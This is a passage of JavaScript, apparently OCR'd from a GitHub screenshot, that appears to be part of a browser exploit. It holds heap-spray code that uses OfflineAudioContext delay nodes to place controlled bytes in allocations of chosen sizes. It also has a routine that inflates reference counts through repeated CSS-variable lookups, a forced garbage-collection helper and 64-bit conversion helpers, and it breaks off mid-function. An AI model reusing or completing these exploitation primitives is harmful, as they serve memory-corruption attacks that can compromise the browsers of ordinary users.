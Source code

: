 ```html
      let view = new DataView(ab);
      return view.getBigUint64(0, is_little_endian);
    }

    function swapEndian(n) {
      let view = new DataView(new ArrayBuffer(8));
      view.setBigUint64(0, n, true);
      return view.getBigUint64(0, false);
    }

    // function sleep(ms) {
    //   var start = new Date().getTime();
    //   while (new Date().getTime() < start + ms) { /* wait */ }
    // }
    function sleep(ms) {
      return new Promise(resolve => setTimeout(resolve, ms));
    }

    function gc() {
      let x = [];
      for (let i = 0; i < 200; i++) {
        x.push(new Array(1024 * 1024));
      }
    }

    function increase_refs(ref_count_) {
      let rs = getComputedStyle(div0);
      // the default ref_count_ is 2
      for (let i = 0; i < ref_count_ - 2; i++) {
        rs.getPropertyValue(kTargetCSSVar);
      }
    }

    async function allocAudioArray(size, data, count) {
      const delay = ((size - 0x20) / 4 - 0x80) / 4096;
      const prevCount = audioCtxArr.length;
      for (let i = 0; i < count; i++) {
        let audioCtxDelay = new OfflineAudioContext(1, 4096, 4096);
        // will alloc ((delay * 4096 * 1024) / 1024 + 0x80) * 4 + 0x20
        let delayNode = audioCtxDelay.createDelay(delay);
        audioCtxArr.push(audioCtxDelay);
        delayNodeArr.push(delayNode);
      }

      // FIXME: only the first 0x600 is controled now
      // buffer content is getting weird when size is big
      if (data.byteLength > 0x600)
        die('data too long for Audio Array');
      let buffer = audioCtx.createBuffer(1, 0x600, 4096);
      let dstData = buffer.getChannelData(0);
      new Uint8Array(dstData.buffer).set(new Uint8Array(data));

      for (let i = 0; i < count; i++) {
        let audioCtxDelay = audioCtxArr[prevCount + i];
        let delayNode = delayNodeArr[prevCount + i];
        let srcNode = audioCtxDelay.createBufferSource();
        srcNodeArr.push(srcNode);
        srcNode.buffer = buffer;
        srcNode.connect(delayNode).connect(audioCtxDelay.destination);
        // audioCtxDelay.suspend(1);
        audioCtxDelay.suspend(0x600 / 4096.0);
        srcNode.start();
        audioCtxDelay.startRendering();
```